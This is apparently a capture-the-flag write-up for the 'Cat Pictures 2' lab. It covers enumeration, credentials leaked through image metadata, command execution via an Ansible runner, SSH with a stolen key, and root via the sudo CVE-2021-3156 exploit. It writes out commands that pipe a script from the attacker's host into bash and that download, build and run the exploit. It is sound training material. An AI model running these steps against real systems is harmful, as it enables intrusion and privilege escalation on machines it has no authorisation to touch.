<div align="center">


# Cat Pictures 2

**Difficulty:** Easy    
**Category:** Web

</div>

---


## Enumerating port 80

```bash
gobuster dir -u http://10.81.166.213 -w /usr/share/wordlists/dirb/big.txt
```



**PHP application** 








The first cat picture has the description: "note to self: strip metadata"

I download the image and:
```bash
exiftool blabal.jpg
```



I go to this URL and:
```text
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

I log into GiTea and find the commit "add flag":





```flag
10d916<REDACTED>146bb5
```

This is the ansible repo:




I found the Ansible tasks which were hinted to in the note (port 1337):



From the previous note we know that Ansible is on port 1337.

Port1337: (olivetin)



I can ping host


I enter my IP and look at tcpdump:

```bash
sudo tcpdump -i eth0
```



I can see them. RCE?



Enter the shell ^



Now we run the playbook



```bash
cat flag2.txt
5e2cafbbf<REDACTED>cd797920
```

I find the private ssh key and ssh in.

```bash
ssh -i bismuth_id_rsa bismuth@10.81.181.85
```



Lets run linPEAS

```bash
curl 192.168.135.169:6767/linpeas.sh|bash
```



https://www.exploit-db.com/exploits/51217

```
The exploit checks if the current user has privileges to run sudoedit or sudo -e on a file as root. If so, it will open the sudoers file for the attacker to ad a line to gain privileges on all the files and get a root shell.
```

This one is better:
https://github.com/blasty/CVE-2021-3156


On my machine:
```bash
git clone https://github.com/blasty/CVE-2021-3156

tar -cvf exploit.tar CVE-2021-3156

python3 -m http.server 6767
```

On target:
```bash
curl 192.168.135.169:6767/exploit.tar -o homework.tar
tar -xopf homework.tar
cd CVE-2021-3156
make
./sudo-hax-me-a-sandwich
```



Choose 0:



```bash
sudo su
```



hell yeah!

```bash
cat /root/root.txt
6d2a<REDACTED>a28a971
```
